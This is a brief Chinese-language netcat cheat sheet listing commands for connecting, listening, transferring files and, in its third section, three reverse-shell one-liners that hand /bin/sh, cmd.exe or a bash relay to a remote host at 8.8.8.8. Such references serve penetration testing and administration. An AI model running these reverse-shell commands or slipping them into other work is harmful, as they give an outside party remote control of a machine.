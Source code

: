 # netcat

```
netcat 网络军刀
```

#### 命令

1. 连接端口
```
nc 8.8.8.8 
```

2. 监听端口
```
nc -l 8888
```

3. 反弹 shell
```
nc 8.8.8.8 8888 -e /bin/sh
nc 8.8.8.8 8888 -e cmd.exe
nc 8.8.8.8 8888 | /bin/bash | nc 8.8.8.8 9999
```

4. 传输文件
```
发送方 : 
nc 8.8.8.8 8888 < intput_file
接收方 : 
nc -l 8888 > output_file
```
